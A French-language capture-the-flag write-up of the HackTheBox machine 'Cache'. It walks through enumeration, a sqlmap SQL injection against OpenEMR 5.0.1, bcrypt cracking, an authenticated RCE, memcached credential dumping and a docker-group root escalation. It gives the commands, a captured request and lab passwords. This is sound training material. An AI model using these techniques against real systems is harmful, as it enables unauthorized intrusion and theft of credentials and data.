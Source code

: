 ```yaml
---
layout: post
title: HackTheBox - Cache
---
```



Etape 1: énumération réseaux de la machine

nmap -sC -sV -T5 10.10.10.188

Grâce à cette commande on peut voir les ports ouverts sur la machine ainsi que les possibles services qui se trouvent derrière.

On voit qu’il y a un service web ainsi que le service SSH

Avant de passer sur l'énumération du site on met dans notre fichier /etc/hosts la ligne suivante:

10.10.10.188 cache.htb
Etape 2: Enumération du site web
On se connecte à Burp pour naviguer sur le site et commencer à faire une arborescence de celui-ci.

On fait aussi de l'énumération sur cache.htb avec les commandes suivantes :

./ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cache.htb/FUZZ -e php,js,txt

./dirsearch.py -u http://cache.htb -e php

dirbuster (utilisation de la version graphique)

On voit un grand nombre de fichier, ainsi qu’une page d’authentification.

Nous allons essayer de nous connecter :




Une pop-up nous indique que nous n’avons pas les bons identifiants, nous allons nous tourner vers les fichiers JS.















Le fichier nous donne un mot de passe et un compte mais malheureusement nous arrivons sur cette page : 






Rien de concluant sur cette page.







Nous nous concentrons maintenant sur la page author.html : 


On remarque que l’auteur est également à l’origine du projet Hospital Management System.
7

On se dit qu’il y a certainement un VirtualHost sur le serveur apache, qui nous redirige en fonction du site demandé. Nous tentons : 
cache.hsm
htb.hsm
hsm.htb

Succès avec hsm.htb.




Etape 3 : Enumeration sur hsm.htb

On recommence alors l’énumération avec les mêmes commandes sur ce nouveau site.

La aussi on se retrouve avec plein de fichiers et sous-dossiers.
On essaie avec admin.php: rien de très concluant.
Juste une page pour se connecter. On test des identifiants par défaut comme : root/root, admin/admin etc… Mais rien ne fonctionne. Cependant on y voit la version du CMS OpenEMR 5.0.1 patch(3).


Etape 4 : Recherche d’exploitation sur la version 5.0.1 d’OpenEMR

On cherche alors sur google “OpenEMR 5.0.1 cve” , on y trouve alors cette page :

https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69

Malheureusement il faut être authentifié, hors la page register.php ne fonctionne pas comme elle devrait et nous ne pouvons pas nous créer de compte.

On recherche alors “OpenEMR exploit” et nous tombons sur cette page :

https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

Il s’agit du rapport d’audit concernant notre version, publié par OpenEMR eux mêmes.

Etape 5 : Exploitation de la SQLi

On y apprend que pour utiliser certains exploits il faut d’abord aller sur la page /portal/account/register.php et qu’on pourra ensuite essayer plusieurs exploit

On y voit plusieurs SQLi. On décide de se concentrer sur /portal/add_edit_event_user.php. 
On se rend sur cette page, on copie les headers qu’on colle dans un fichier texte. 
Pour l’exploiter avec sqlmap on utilise l’option -r pour prendre notre fichier en paramètre et avec les commandes suivantes on trouve l’utilisateur admin :
Contenu de text.txt : 
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: OpenEMR=l8jg1n25bv4oi55imfua46mf4k; PHPSESSID=ucra65vd67k04tjqn3odev2fbg
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0



Commandes
py sqlmap.py -r text.txt --dbs
py sqlmap.py -r text.txt -D openemr --tables
py sqlmap.py -r text.txt -D openemr -T users_secure --dump


Une fois le mot de passe récupéré, nous tentons de le cracker avec JohnTheRipper vu que c’est un hash. On copie le hash dans un fichier qu’on lui donne avec la commande suivante :

john pass.txt 

Cette commande va nous renvoyer le résultat suivant :

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx       	(?)
1g 0:00:00:00 DONE 2/3 (2020-09-11 15:42) 1.754g/s 2021p/s 2021c/s 2021C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed

On voit donc que le mot de passe pour openemr_admin est xxxxxx. Une fois qu’on a cette information on peut aller se connecter sur la page de login de OpenEMR

Etape 6 : Exploitation de la RCE
Maintenant qu’on à un accès admin on peut exploiter une RCE qui demandait d’être authentifié :

https://www.exploit-db.com/exploits/48515

Une fois connecté, on essaye de faire spawn un shell digne de ce nom. Après plusieur essais avec https://netsec.ws/?p=337 celle qui a marcher est :

/usr/bin/script -qc /bin/bash /dev/null

Ensuite on fait :
cat /etc/passwd

Pour voir tous les utilisateur de la machine. On voit ash,luffy et root. On se souvient alors que sur le premier site , cache.htb, on avait eu des creds pour ash. On les essaie avec :

su ash
H@v3_fun

Et voilà nous sommes connectés, nous récupérons le flag user.txt



Etape 7 : Enumération Linux + Pivot Luffy
Maintenant il nous reste plus qu’à passer root, on a donc chercher les SUID : 

find / -perm 4000 2>/dev/null

Rien trouvé, ainsi que pour les GUID. Or quand on affiche /etc/group on voit que l’utilisateur luffy fait parti d’un groupe docker, or on sait que des élévations de privilèges depuis docker existent. On tente alors de se connecter avec luffy pour ensuite trouver le flag root.
On décide alors de regarder ce qui tourne sur la machine via :

netstat -tunlp

Nous voyons un port inconnu. Après quelques recherches nous découvrons ce service :

memcached

Pour se connecter au serveur memcached on fait la commande suivante :

telnet 127.0.0.1 11211

Une fois connectés, nous avons fait la commande suivante après quelque recherche sur https://lzone.de/cheat-sheet/memcached :

stats cachedump 1 0
sortie :
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END

On voit alors qu’on a un item passwd qu’on récupère via :

get passwd 
sortie :
VALUE passwd 0 9
0n3_p1ec3
END


Nous faisons la concordance que 0n3_p1ec3 correspond au mot de passe de luffy on essaie alors de si connecter et ça marche


Etape 8 : Elévation de privilège via Docker

Une fois connecté en luffy on vérifie les groupes 

id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)

Nous voyons que l’utilisateur appartient bien au groupe docker, nous cherchons alors une vulnérabilité permettant de lire les fichiers réservés à root.

Après des recherches sur internet sur l’élévation de privilèges via docker, nous construisons la commande suivante : 

docker run -v /root:/mnt ubuntu cat /mnt/root.txt



TADA ! le flag root




